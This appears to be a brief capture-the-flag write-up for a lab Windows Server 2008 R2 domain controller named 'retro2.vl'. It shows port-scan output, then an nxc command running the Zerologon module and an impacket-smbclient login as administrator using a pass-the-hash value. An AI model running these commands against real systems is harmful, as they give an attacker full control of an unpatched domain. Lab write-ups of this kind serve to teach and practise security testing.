


## INFO

```
[*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)

PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```


This is Server 2008 R2 , So its vulnerable to known exploits!

```
└─# nxc smb 10.10.69.152 -u guest -p '' -M zerologon
```






```
└─# impacket-smbclient retro2.vl/administrator@10.10.69.152 -hashes :c06552bdb50ada21a7c74536
```


For Intended Way stay Tuned !

